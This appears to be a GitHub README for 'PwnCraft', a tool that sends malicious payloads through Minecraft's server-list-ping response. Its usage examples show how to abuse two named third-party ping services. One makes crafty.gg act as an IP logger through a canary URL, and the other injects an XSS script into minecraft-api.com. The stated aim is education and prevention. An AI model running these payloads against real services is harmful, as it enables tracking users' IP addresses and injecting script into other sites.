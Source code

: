 # PwnCraft 🏴‍☠️

A tool built to deliver malicious payloads through [Minecraft SLP protocol](https://wiki.vg/Server_List_Ping).
Made for educational purpose, for preventing people from getting attacked by this.

## Example usages

### Use https://crafty.gg as an IP logger

- `https://crafty.gg/tools/ping?ip=YOUR_IP&port=YOUR_PORT&platform=java`

- `./pwncraft localhost 1337 -f 'https://CANARY/'`

### XSS on https://minecraft-api.com

- `https://minecraft-api.com/api/ping/YOUR_IP/YOUR_PORT`

- `./pwncraft localhost 1337 -d '<script>alert("XSS !");</script>'`

## Credits

Varint implementation: https://github.com/jsvana/async-minecraft-ping/